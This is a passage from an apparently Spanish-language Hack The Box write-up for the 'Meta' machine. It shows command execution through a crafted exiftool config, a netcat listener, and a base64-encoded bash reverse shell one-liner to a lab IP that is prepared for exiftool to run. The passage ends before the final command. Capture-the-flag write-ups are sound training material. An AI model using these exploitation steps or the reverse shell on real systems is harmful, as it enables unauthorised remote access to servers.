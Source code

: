 Podemos ejecutar comandos

```bash
❯ exiftool -config eval.config runme.jpg -eval='system("id")'
    1 image files updated
```

![](/assets/images/htb-writeup-meta/web11.png)

## Shell as www-data

Ahora vamos a ganar acceso ala maquina 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...

```

Ahora lo que vamos a hacer es convertir nuestro oneliner en **base64** para que el comando pueda ser interpretado

```bash
❯ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK
```

Ahora usamos **exiftool** pasando la cadena y le indicamos que haga un **decode** e interpreta con **Bash** la cadena
